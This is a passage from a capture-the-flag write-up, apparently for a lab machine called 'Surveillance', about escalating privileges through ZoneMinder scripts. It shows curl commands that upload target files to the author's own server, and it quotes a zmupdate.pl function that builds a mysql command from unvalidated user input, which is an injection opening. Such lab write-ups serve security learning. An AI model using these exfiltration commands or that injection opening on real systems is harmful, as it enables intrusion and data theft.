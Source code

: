 ![Valid Scripts](/assets/img/Surveillance/Surveillance_11.png)


So we can see quite a few scripts present that match the regex. So the only thing we could really do now is to check what all these scripts actually do. I downloaded all the scripts using the previous method by uploading the files to my python upload server

```sh
curl -X POST http://10.10.14.242/upload -F files=@/usr/bin/zmaudit.pl
curl -X POST http://10.10.14.242/upload -F files=@/usr/bin/zmcamtool.pl
curl -X POST http://10.10.14.242/upload -F files=@/usr/bin/zmcontrol.pl
curl -X POST http://10.10.14.242/upload -F files=@/usr/bin/zmdc.pl
curl -X POST http://10.10.14.242/upload -F files=@/usr/bin/zmfilter.pl
curl -X POST http://10.10.14.242/upload -F files=@/usr/bin/zmonvif-probe.pl
curl -X POST http://10.10.14.242/upload -F files=@/usr/bin/zmonvif-trigger.pl
curl -X POST http://10.10.14.242/upload -F files=@/usr/bin/zmpkg.pl
curl -X POST http://10.10.14.242/upload -F files=@/usr/bin/zmrecover.pl
curl -X POST http://10.10.14.242/upload -F files=@/usr/bin/zmstats.pl
curl -X POST http://10.10.14.242/upload -F files=@/usr/bin/zmsystemctl.pl
curl -X POST http://10.10.14.242/upload -F files=@/usr/bin/zmtelemetry.pl
curl -X POST http://10.10.14.242/upload -F files=@/usr/bin/zmtrack.pl
curl -X POST http://10.10.14.242/upload -F files=@/usr/bin/zmtrigger.pl
curl -X POST http://10.10.14.242/upload -F files=@/usr/bin/zmupdate.pl
curl -X POST http://10.10.14.242/upload -F files=@/usr/bin/zmvideo.pl
curl -X POST http://10.10.14.242/upload -F files=@/usr/bin/zmwatch.pl
curl -X POST http://10.10.14.242/upload -F files=@/usr/bin/zmx10.pl
```

Going through the different scripts i noticed that the **zmupdate.pl** script uses any  user input without validating it properly. this can be seen on the following script block from line **998** to **1039** The script takes the userinput and just appends it all to one big string.


```perl
sub patchDB {
  my $dbh = shift;
  my $version = shift;

  my ( $host, $portOrSocket ) = ( $Config{ZM_DB_HOST} =~ /^([^:]+)(?::(.+))?$/ ) if $Config{ZM_DB_HOST};
  my $command = 'mysql';
  if ($super) {
    $command .= ' --defaults-file=/etc/mysql/debian.cnf';
  } elsif ($dbUser) {
    $command .= ' -u'.$dbUser;
    $command .= ' -p\''.$dbPass.'\'' if $dbPass;
  }
  if ( defined($portOrSocket) ) {
```